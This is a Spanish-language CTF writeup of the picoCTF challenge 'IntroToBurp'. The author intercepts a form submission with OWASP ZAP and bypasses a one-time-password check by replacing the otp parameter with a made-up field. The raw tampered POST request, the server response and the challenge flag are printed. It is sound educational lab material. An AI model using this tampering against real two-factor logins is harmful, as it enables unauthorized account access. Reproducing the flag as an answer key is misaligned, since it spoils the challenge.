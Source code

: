 ```yaml
---
title: IntroToBurp
date: 2025-04-14 22:00:00 +0200
categories: [writeup, picoctf]
tags: [picoctf, introburp, webexplotation]     
image:
    path: https://picoctf.org/img/logos/pico-mark.svg
    alt: PicoCTF
---
```


>IntroToBurp
Author: Nana Ama Atombo-Sackey & Sabine Gisagara
Description
Try here to find the flag
{: .prompt-tip }

Para este reto nos muestran una web con un formulario, nos dan una pista con el propio nombre del reto "IntroToBurp"
Bueno yo sigo pensando que Zap me sirve y además es gratis así que capturo con Zap la request y observo.
Después del primer envío nos envía a otra web donde nos pide un código OPT.

2fa authentication

Hay una pista que nos indica como debemos proceder:
"Intente alterar la solicitud; tal vez su código del lado del servidor no maneja muy bien las solicitudes malformadas."
cambio el parámetro OPT otp=6 por uno inventado. 
```
POST http://titan.picoctf.net:61730/dashboard HTTP/1.1
host: titan.picoctf.net:61730
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/x-www-form-urlencoded
content-length: 9
Origin: http://titan.picoctf.net:61730
Connection: keep-alive
Referer: http://titan.picoctf.net:61730/dashboard
Cookie: session=.eJxFjMEOwiAQRP-FswdhoS3-DCnb3WhsgSwQY4z_LhfT47yZeR-Fj_ZWNxW7FHVRWIVDy09KgxnvGVenpxgnxxw1snUM3qO5otYIC9AGix0_7vse0nrQqcqtjOCsnmcYsay1vrJs56Dcc6KQ-hFJBgVrwIIZRa8kf5f0or4_jV0yvQ.Z_2f7g.f3xqPKskvt-OIhIapOBzVYjdj1Y
Upgrade-Insecure-Requests: 1
Priority: u=0, i

test=aqaa
```
```
Welcome, brup you sucessfully bypassed the OTP request. 
Your Flag: picoCTF{#0TP_Bypvss_SuCc3$S_2e80f1fd}
```

flag: **picoCTF{#0TP_Bypvss_SuCc3$S_2e80f1fd}**

Supuestamente el provocar un error o introducir un dato distinto al deseado provoca el bypass del OPT. 
Como habrás notado Zap me ha servido tanto para capturar la solicitud como para modificarla. 